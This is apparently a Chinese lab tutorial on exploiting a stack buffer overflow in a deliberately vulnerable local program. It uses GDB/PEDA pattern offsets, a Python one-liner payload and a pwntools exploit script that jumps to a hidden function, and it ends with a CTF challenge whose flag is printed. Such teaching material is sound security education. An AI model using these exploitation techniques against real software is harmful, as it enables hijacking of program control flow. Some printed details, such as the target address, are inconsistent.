

4. 程序崩溃后，查找返回地址被覆盖的位置，PEDA会告诉我们RIP/EIP寄存器中的模式偏移量，这就是从缓冲区开始到返回地址的字节数：
```bash
gdb-peda$ pattern search         # 搜索当前寄存器中的模式

# 示例如下
Registers contain pattern buffer:
RBP+0 found at offset: 64
Registers point to pattern buffer:
[RSP] --> offset 72 - size ~28
Pattern buffer found at:
0x0040531d : offset    0 - size  100 ([heap])
0x00405720 : offset    0 - size  100 ([heap])
0x00007fffffffd9ad : offset    0 - size  100 ($sp + -0x1eb [-123 dwords])
0x00007fffffffdb50 : offset    0 - size  100 ($sp + -0x48 [-18 dwords])
0x00007fffffffe07e : offset    0 - size  100 ($sp + 0x4e6 [313 dwords])
References to pattern buffer found at:
0x00007ffff7e158f8 : 0x00405720 (/usr/lib/x86_64-linux-gnu/libc.so.6)
0x00007ffff7e15900 : 0x00405720 (/usr/lib/x86_64-linux-gnu/libc.so.6)
0x00007ffff7e15908 : 0x00405720 (/usr/lib/x86_64-linux-gnu/libc.so.6)
0x00007ffff7e15910 : 0x00405720 (/usr/lib/x86_64-linux-gnu/libc.so.6)
0x00007ffff7e15918 : 0x00405720 (/usr/lib/x86_64-linux-gnu/libc.so.6)
0x00007fffffffd958 : 0x00405720 ($sp + -0x240 [-144 dwords])
0x00007fffffffd3f0 : 0x00007fffffffdb50 ($sp + -0x7a8 [-490 dwords])
0x00007fffffffd4f0 : 0x00007fffffffdb50 ($sp + -0x6a8 [-426 dwords])
0x00007fffffffd760 : 0x00007fffffffdb50 ($sp + -0x438 [-270 dwords])
0x00007fffffffda78 : 0x00007fffffffdb50 ($sp + -0x120 [-72 dwords])
0x00007fffffffda98 : 0x00007fffffffdb50 ($sp + -0x100 [-64 dwords])
0x00007fffffffdad8 : 0x00007fffffffdb50 ($sp + -0xc0 [-48 dwords])
0x00007fffffffdcc0 : 0x00007fffffffe07e ($sp + 0x128 [74 dwords])
```


### 步骤5：使用PEDA执行简单的漏洞利用

1. 根据前面找到的偏移量，设计一个有效载荷：
```bash
# 在终端中(不是GDB)
python3 -c 'import struct; open("payload.txt", "w").write("A"*72 + struct.pack("<Q", {{0x401146}}).decode("latin-1", errors="replace"))'
```


2. 利用生成的载荷
```bash
$ ./vuln < payload.txt

Welcome to the vulnerable program!
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv@ # payload中的内容
Congratulations! You've found the secret function!
Segmentation fault (core dumped)
```

同时我们会发现漏洞的利用导致程序崩溃了，是因为我们覆盖了上的返回地址，使程序跳转到`secret_function`，而`secret_function`执行完毕后，它会尝试返回，但是栈已经被破坏了，没有有效的返回地址可用，于是程序尝试跳转到地址0x0（根据下面的实验，我们可以注意到寄存器RIP的值为0），这是一个无效地址，导致了段错误，程序崩溃

3. 在gdb中利用生成的载荷：
```bash
gdb-peda$ run < payload.txt
Starting program: /home/tlgjm/ics/vuln < payload.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to the vulnerable program!
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv@
Congratulations! You've found the secret function!

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x33 ('3')
RBX: 0x0
RCX: 0x7ffff7e9c887 (<__GI___libc_write+23>:    cmp    rax,0xfffffffffffff000)
RDX: 0x1
RSI: 0x1
RDI: 0x7ffff7fa4a70 --> 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe238 --> 0x7ffff7db1d90 (<__libc_start_call_main+128>:   mov    edi,eax)
RIP: 0x0
R8 : 0x7ffff7fa4a70 --> 0x0
R9 : 0x20657627756f5920 (" You've ")
R10: 0x687420646e756f66 ('found th')
R11: 0x246
R12: 0x7fffffffe348 --> 0x7fffffffe5eb ("/home/tlgjm/ics/vuln")
R13: 0x4011df (<main>:  endbr64)
R14: 0x403e18 --> 0x401140 (<__do_global_dtors_aux>:    endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe238 --> 0x7ffff7db1d90 (<__libc_start_call_main+128>:  mov    edi,eax)
0008| 0x7fffffffe240 --> 0x0
0016| 0x7fffffffe248 --> 0x4011df (<main>:      endbr64)
0024| 0x7fffffffe250 --> 0x100000000
0032| 0x7fffffffe258 --> 0x7fffffffe348 --> 0x7fffffffe5eb ("/home/tlgjm/ics/vuln")
0040| 0x7fffffffe260 --> 0x0
0048| 0x7fffffffe268 --> 0xb169af4fa218c786
0056| 0x7fffffffe270 --> 0x7fffffffe348 --> 0x7fffffffe5eb ("/home/tlgjm/ics/vuln")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000000000 in ?? ()
```


## 实验二：利用pwntools进行漏洞利用

在本实验中，我们将学习如何使用pwntools库编写漏洞利用脚本，通过栈溢出漏洞来获取程序中隐藏的信息。pwntools是一个专为CTF比赛和漏洞研究开发的Python库，它提供了许多有用的功能，简化了漏洞利用的过程。

### 安装pwntools

1. 安装pwntools：
```bash
sudo apt update
sudo apt install python3-pwntools

```


2. 验证安装：
```bash
python -c 'from pwn import *
print(pwnlib.version)'
```


### 步骤1：编写基本的pwntools脚本

使用pwntools编写一个简单的脚本来模拟我们在实验一中手动完成的栈溢出利用。创建一个名为`exploit.py`的文件，内容如下：

```python
#!/usr/bin/env python3
from pwn import *

# 设置二进制文件路径
binary_path = './vuln'

# 创建进程
p = process(binary_path)

# 不等待特定文本，直接接收一段时间的输出
p.recv(timeout=1)

# 查找secret_function地址
elf = ELF(binary_path)
secret_function_addr = elf.symbols['secret_function']

log.info(f"Secret function地址: {hex(secret_function_addr)}")

# 构造payload: 填充字符 + secret_function地址
offset = 72
payload = b'A' * offset + p64(secret_function_addr)

# 发送payload
p.sendline(payload)

# 接收并输出程序响应
result = p.recvall(timeout=2).decode(errors='replace')
print(result)
```

脚本工作原理：
1. 使用`process()`创建目标漏洞程序的进程实例
2. 通过`recv()`接收程序初始输出，不等待特定文本
3. 使用`ELF()`加载二进制文件，自动提取`secret_function`的内存地址
4. 构造payload：将72个"A"作为填充，加上`p64()`转换的函数地址
5. 通过`sendline()`发送payload触发栈溢出漏洞
6. 使用`recvall()`捕获程序全部输出，验证成功跳转到隐藏函数

### 步骤2：执行脚本并解释

1. 运行漏洞利用脚本：
```bash
┌──(virtual㉿virtual)-[~/Desktop/IOT/0x07]
└─$ python3 exploit.py
[+] Starting local process './vuln': pid 4747
[*] '/home/virtual/Desktop/IOT/0x07/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[*] Secret function地址: 0x401146
[+] Receiving all data: Done (157B)
[*] Stopped process './vuln' (pid 4747)
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF\x11@
Congratulations! You've found the secret function!


```


2. 分析输出：

```bash
[+] Starting local process './vuln': pid 4747
```
这表示pwntools成功启动了本地进程`./vuln`，进程ID为4747。

```bash
[*] '/home/virtual/Desktop/IOT/0x07/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

这是pwntools自动分析二进制文件后显示的安全特性:
- 64位小端程序(amd64-64-little)
- 部分RELRO保护(Partial RELRO)
- 无栈保护机制(No canary found)
- 没有开启NX保护(NX unknown)，栈是可执行的(Stack: Executable)
- 没有开启PIE(No PIE)，程序加载的基址固定为0x400000
- 包含可读可写可执行段(RWX segments)
- 有调试信息(Debuginfo: Yes)，未剥离符号表(Stripped: No)

```bash
[*] Secret function地址: 0x401146
```
显示了从ELF文件中提取的`secret_function`函数的地址为0x401146。

```bash
[+] Receiving all data: Done (157B)
```
表示接收到了程序的全部输出，共157字节。

```bash
[*] Stopped process './vuln' (pid 4747)ret function!
```
程序正常停止进程。这是预期行为，因为我们覆盖了返回地址，使程序跳转到了`secret_function`，但是函数执行完后，栈已被破坏，导致程序崩溃。

```bash
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x11@
Congratulations! You've found the secret function!
```

这是程序的实际输出：
1. "Enter some text: "是程序请求用户输入
2. "You entered: "后面跟着我们发送的payload内容
   - 多个'A'字符(72个)是用来填充的
   - "v\x11@"是我们覆盖的返回地址(0x401176)的字节表示，在终端中显示为奇怪字符
3. "Congratulations! You've found the secret function!"是成功触发`secret_function`函数的输出

这表明漏洞利用成功了：我们通过栈溢出漏洞修改了程序的执行流程，使其跳转执行了本来不会被调用的`secret_function`函数。

### 总结：pwntools的主要优势

1. **工具集成**：将多种二进制分析工具集成在一个Python库中
2. **ELF解析**：自动解析ELF文件结构，提取符号表、GOT、PLT等信息
3. **地址计算**：自动处理地址相关计算，如libc偏移等
4. **交互式调试**：与GDB集成，支持动态调试
5. **ROP链构建**：提供ROP链构建工具
6. **通信抽象**：统一的进程通信接口，支持本地和远程目标
7. **模式生成与搜索**：类似PEDA的模式功能，但集成在脚本中
8. **平台兼容性**：支持多种架构和操作系统

通过使用pwntools，我们可以把实验一中手动进行的一些步骤自动化，提高漏洞分析和利用的效率。

## 【扩展挑战】实验三：尝试自己逆向分析一个二进制程序

在这个实验中我们提供了一个与实验一中的代码类似的二进制文件，里面藏有一个flag字符串，请你根据学到的知识对二进制文件进行分析后获得flag

- 分享名称：flag_stealer
- 分享链接：https://kod.cuc.edu.cn/#s/_dzkbuTQ
- 访问密码：rDuoJ

### 利用 GDB & PEDA 在内存中搜索
既然我们在实验一安装并使用了 PEDA，我们可以将程序载入内存进行解析。这种方法对于寻找漏洞利用中的特殊字符串特征非常实用。

启动并载入二进制文件：
```bash
gdb -q ./flag_stealer
```

为了深入分析，我们可以先查看程序的安全保护情况及函数列表：
```bash
gdb-peda$ checksecgdb-peda$ info functions
(注：如果这里能找到类似 secret_function 的后门函数，就可以如实验一那样去复现栈溢出；如果没有，则说明只是普通字符串隐藏。)
```

利用 PEDA 提供的全局搜索功能匹配内存特征：
```bash
gdb-peda$ find "flag{"
```
命令成功在 .rodata （只读数据段）中匹配到了目标序列，直接输出了 flag：
```bash
flag{208f1b1289da972682cbc81c8684fcc8}
```

## 思考

1. 为什么我们在编译时需要使用`-fno-stack-protector`和`-z execstack`选项？这些选项分别禁用了哪些保护机制？
> -fno-stack-protector禁用了栈保护(Canary)，允许我们在溢出时覆盖返回地址；-z execstack则禁用了NX保护，允许程序直接执行注入在栈上的恶意代码。

2. 如果启用ASLR，我们的攻击方法还有效吗？如何绕过ASLR保护？
> 开启ASLR后内存加载地址随机化，基于固定地址的攻击失效。通常可通过信息泄露获取内存基址，或使用ROP（返回导向编程）、Ret2libc等高级开发技术来绕过。

3. 除了改变返回地址外，栈溢出还可能导致哪些安全问题？
> 除控制执行流外，栈溢出还能覆盖相邻的局部变量改变程序逻辑，破坏栈帧指针（RBP）引起程序崩溃导致拒绝服务(DoS)，或者篡改函数参数以实现提权。

4. 在没有符号信息的情况下，如何更有效地识别二进制程序中的关键函数？
> 无符号时可借助IDA Pro等工具分析控制流图与交叉引用，主要通过查找特殊的硬编码提示字符串、系统调用号，或利用已知库函数的特征码（如FLIRT）进行定位。

5. pwntools如何简化漏洞利用的开发过程？它相比手动编写漏洞利用代码有哪些优势？
> pwntools封装了底层管道与通信，支持ELF自动解析与动态地址计算。相比手动拼接字节和管理IO阻塞，它免去了繁琐的大小端转换和交互操作，极大提升了利用效率极性转换，极大提升了漏洞验证与开发的效率。

## 参考资料

1. [PEDA - Python Exploit Development Assistance for GDB](https://github.com/longld/peda)
2. [pwntools Documentation](https://docs.pwntools.com/)
3. [GDB Documentation](https://sourceware.org/gdb/current/onlinedocs/gdb/)
4. [Modern Binary Exploitation](https://github.com/RPISEC/MBE)